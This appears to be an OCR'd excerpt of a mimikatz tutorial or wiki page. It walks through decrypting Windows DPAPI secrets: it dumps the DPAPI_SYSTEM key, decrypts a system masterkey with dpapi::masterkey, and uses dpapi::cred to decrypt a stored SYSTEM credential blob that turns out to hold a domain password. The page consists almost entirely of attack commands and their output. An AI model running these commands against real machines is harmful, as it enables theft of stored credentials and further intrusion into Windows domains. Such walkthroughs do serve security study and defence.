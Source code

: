 ```
  [00] {6c64c5e5-041d-37d7-0fe0-315eb212f3cc} 354c1f19ceecc072795a1ba4baa860adac8102c8597ecb882180c94e0176d932
[...]
Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 eb fd fc 4e f8 cd e8 38 3a e2 98 38 cf c5 bb 75 ba 29 46 55 c8 9e 39 64 4a 0b 05 aa 3b 39 39 c8 32 02 82 f8 57 d9 18 2c
    full: ebfdfc4ef8cde8383ae29838cfc5bb75ba294655c89e39644a0b05aa3b3939c8320282f857d9182c
    m/u : ebfdfc4ef8cde8383ae29838cfc5bb75ba294655 / c89e39644a0b05aa3b3939c8320282f857d9182c
old/hex :[...]
```

Of course, in both cases, user part of `DPAPI_SYSTEM` is same: `c89e39644a0b05aa3b3939c8320282f857d9182c`

System masterkeys for users are in: `%systemroot%\System32\Microsoft\Protect\S-1-5-18\User`. Let's decrypt the intersting one:
```
mimikatz # dpapi::masterkey /in:%systemroot%\System32\Microsoft\Protect\S-1-5-18\User\5d4e7e0d-d922-4783-8efc-9319b45b1c9a /system:c89e39644a0b05aa3b3939c8320282f857d9182c
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
[...]
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 8a2c5dcdbf5ffb9afd3ee457ec10293a
    rounds           : 00001f40 - 8000
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : 139cba79257390e1bf488b0d74db6d814afa325f055c54dddb8b18c8a344337f39e9b092386f74e90253c1d86d40fa5ce5d8e1a5a12dd7f30601873673e59a2ec5ad376c9fd1e0a131bb4799057ccaed0e944ff144c6b6cadb5d1d6bdd56ab0c8104afdf7601546df551da41f987da0aea1381346d9e8a529598333c1af1e142f45798b3357d8167b13ebd1acd83a5eb
[...]
[masterkey] with DPAPI_SYSTEM: c89e39644a0b05aa3b3939c8320282f857d9182c
  key : 0a942e9dfc934246081ed23f371c42fc0f9fcb6dcd3285ac210cd64c26dec3adc120eee7abdd56c68acd051850fd923380bc2e3a1558354eac53c2da6e73bbce
  sha1: ba02ef86f26c683858d3df3dc961e37b0d47e574
```
As `mimikatz` still loves you, masterkey key is still pushed into the cache
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000046 - 70
  szDescription      : Données d’identification locales
[...]
Decrypting Credential:
 * volatile cache: GUID:{5d4e7e0d-d922-4783-8efc-9319b45b1c9a};KeyHash:ba02ef86f26c683858d3df3dc961e37b0d47e574
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000fe - 254
  credUnk0       : 00004004 - 16388

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 03/01/2017 21:31:30
```